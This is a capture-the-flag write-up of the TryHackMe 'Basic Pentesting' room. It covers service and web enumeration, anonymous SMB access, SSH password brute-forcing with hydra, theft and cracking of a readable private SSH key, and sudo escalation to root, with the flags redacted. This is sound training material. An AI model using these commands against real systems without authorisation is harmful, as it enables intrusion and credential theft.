





# Basic Pentesting — Write-up

**Platform:** TryHackMe  
**Room:** Basic Pentesting  
**Difficulty:** Easy  
**Estimated Time:** ~60 minutes  

---

## Overview

This challenge practices fundamental penetration testing techniques to gain access to a Linux host and escalate privileges through misconfigurations and credential recovery.

### Key Learning Objectives
- **Service Enumeration:** Identify exposed services and potential attack paths.
- **Web Enumeration:** Discover hidden content and information disclosure.
- **Credential Discovery:** Extract usernames/credentials from exposed resources.
- **Offline Cracking:** Recover passwords/passphrases from captured artifacts.
- **Privilege Escalation:** Identify and exploit privilege boundaries (sudo, misconfigurations).

---

## 1) Deploy & Connectivity Check

After deploying the target and connecting via TryHackMe VPN, I confirmed the host was reachable.

```bash
ping -c 4 <TARGET_IP>
```

**Status:** Target reachable, proceed to enumeration.

---

## 2) Service Enumeration (Nmap)

I started with a TCP scan to identify open ports and services.

```bash
nmap <TARGET_IP>
```

Example output:

```text
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

**Notes:**
- Ports **8009 (AJP)** and **8080 (HTTP)** often correlate with **Tomcat-like deployments**; this should be confirmed later via banner/fingerprinting.

---

## 3) Web Enumeration (Hidden Directory Discovery)

### Question: *What is the name of the hidden directory on the web server? (no `/`)*

I enumerated directories on port 80 using `gobuster` with a common wordlist.

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt
```

Example output:

```text
/<REDACTED>          (Status: 301) [Size: 320] [--> http://<TARGET_IP>/<REDACTED>/]
/index.html          (Status: 200) [Size: 158]
/server-status       (Status: 403) [Size: 278]
```

---

## 4) Information Disclosure (HTML Comment + Directory Listing)

I reviewed `index.html` and found an HTML comment referencing a developer notes area.





This correlated directly with the discovered hidden directory `/<REDACTED>/`.

### Directory Listing Enabled
Accessing `/<REDACTED>/` showed that **directory listing** was enabled, allowing file enumeration without guessing filenames.

**Exposed files:**
- `dev.txt`
- `j.txt`





**Findings (summarized):**
- **K** — Administrator/Auditor (mentions SMB/Apache involvement)
- **J** — Developer/User (notes indicate a weak/crackable password)

---

## 5) SMB Enumeration & Username Discovery

### SMB Share Listing
I enumerated SMB shares.

```bash
smbclient -L //<TARGET_IP> -N
```

Example output:

```text
Sharename       Type      Comment
---------       ----      -------
Anonymous       Disk
IPC$            IPC       IPC Service (Samba Server <REDACTED>)
```

### Access Anonymous Share
I connected to the `Anonymous` share and retrieved `staff.txt`.

```bash
smbclient //<TARGET_IP>/anonymous -N
```

```bash
ls
get staff.txt
exit
```

### Question: *What is the username?*

```bash
cat staff.txt
```

Example content:

```text
PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

**Conclusion:**
- User **J** = `jan`
- User **K** = `kay`

---

## 6) Initial Access (SSH Brute Force)

### Question: *What is the password?*

Using the discovered username `jan`, I ran a password attack against SSH with `hydra` and `rockyou.txt`.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt <TARGET_IP> ssh
```

Result:

```text
[22][ssh] host: <TARGET_IP>   login: jan   password: <REDACTED>
```

### Question: *What service do you use to access the server? (abbrev, all caps)*

I authenticated via **SSH**:

```bash
ssh jan@<TARGET_IP>
```

---

## 7) Post-Exploitation Enumeration (as `jan`)

After access, I verified identity and checked common privilege escalation vectors.

```bash
whoami
```

```text
jan
```

### Sudo
```bash
sudo -l
```

```text
Sorry, user jan may not run sudo on <HOSTNAME>.
```

### Cron Jobs
```bash
cat /etc/crontab
```

No suspicious custom jobs were identified.

### SUID Binaries
```bash
find / -perm -4000 2>/dev/null
```

The results appeared to be mostly standard binaries; no immediate direct privesc was identified from this path.

---

## 8) Lateral Movement (Targeting `kay`)

Given earlier web notes referencing `kay` and the likelihood of higher privilege, I inspected `/home/kay`.

```bash
ls -la /home/kay/
```

Notable files included:
- `.ssh/`
- `pass.bak`

### Insecure SSH Key Exposure
The `.ssh` directory and private key were readable.

```bash
ls -la /home/kay/.ssh/
```

Example:

```text
-rw-r--r-- 1 kay kay 3326 ... id_rsa
```

I copied the key content (exfiltration) and confirmed it was encrypted:

```text
Proc-Type: 4,ENCRYPTED
```

---

## 9) Offline Cracking (SSH Key Passphrase)

### 1) Save Key Locally
```bash
nano kay.key
```

### 2) Convert to John Format
```bash
ssh2john kay.key > kay.hash
```

### 3) Crack Passphrase
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt kay.hash
```

Output (redacted):

```text
<REDACTED>  (kay.key)
```

---

## 10) Secure Key Permissions (Client-Side Requirement)

SSH will reject private keys that are group/world readable. I fixed permissions:

```bash
chmod 600 kay.key
ls -la kay.key
```

Expected state:

```text
-rw------- 1 <LOCAL_USER> <LOCAL_USER> ... kay.key
```

---

## 11) Login as `kay` (SSH Key Auth)

```bash
ssh -i kay.key kay@<TARGET_IP>
```

```bash
whoami
```

```text
kay
```

---

## 12) Privilege Escalation (as `kay`)

### Question: *What is the final password you obtain?*

I found a backup password file in `kay`’s home:

```bash
ls
cat pass.bak
```

Output:

```text
<REDACTED>
```

### Sudo Privileges
```bash
sudo -l
```

Result:

```text
(ALL : ALL) ALL
```

Since `kay` can run any command via sudo, I escalated to root:

```bash
sudo su -
```

Then validated completion:

```bash
cat /root/flag.txt
```

---

## Takeaways

- Small disclosures (HTML comments + directory listing) can lead directly to user discovery and compromise.
- SMB shares often expose internal context and usernames.
- Weak passwords/passphrases remain a primary weakness.
- Misconfigured file permissions (world-readable SSH keys) enable lateral movement.
- Broad sudo rights (`(ALL:ALL) ALL`) is effectively full compromise.

---


Written by **Nelson Hirt**